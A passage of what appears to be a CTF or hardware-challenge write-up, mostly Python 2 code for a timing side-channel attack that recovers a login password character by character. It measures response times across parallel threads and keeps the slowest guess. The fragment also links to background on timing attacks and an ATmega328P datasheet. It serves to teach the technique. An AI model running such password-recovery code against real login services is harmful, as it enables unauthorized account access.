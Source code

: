 ```python

    elif out.count("Login") < times+1:
        print "Timed out for " + prefix + let

    conn.close()
    return get_uptime(out)

def get_letter_avg(let, times, avg_size = 1, prefix = ''):
    avg_arr = []
    for i in range(avg_size):
        avg_arr.append(get_letter_time(let, times, prefix))

    return sum(avg_arr)/len(avg_arr)

def get_letter_avg_threading(let, times, q, avg_size = 1, prefix = ''):
    q.put((let, get_letter_avg(let, times, avg_size, prefix)))

def time_thread(seconds):
    print "time: " + str(seconds) + " seconds"
    for i in tqdm.tqdm(range(seconds)):
        time.sleep(1)

def get_next_letter(prefix, times):
    q = Queue.Queue()
    threads = []
    for c in charset:
        t = threading.Thread(target = get_letter_avg_threading, args = (c, times, q, 1, prefix))
        t.start()
        threads.append(t)

    t = threading.Thread(target = time_thread, args=(11,))
    t.start()
    threads.append(t)

    for t in threads:
        t.join()

    tbl = {}
    while not q.empty():
        c, time = q.get()
        tbl[c] = time

    sorted_tbl = sorted(tbl.items(), key = lambda x: x[1])
    print sorted_tbl
    return sorted_tbl[-1][0]

def timing_attack(pre = ''):
    cur = pre
    for i in range(3):
        times = TIMES + (5 * len(cur))
        print "current password: " + cur + " times = " + str(times)
        res = get_next_letter(cur, times)
        print "next char is: " + res
        cur += res

timing_attack(PRE)
```


[here]: https://en.wikipedia.org/wiki/Timing_attack#:~:text=In%20cryptography%2C%20a%20timing%20attack,taken%20to%20execute%20cryptographic%20algorithms.
[datasheet]: http://ww1.microchip.com/downloads/en/DeviceDoc/Atmel-7810-Automotive-Microcontrollers-ATmega328P_Datasheet.pdf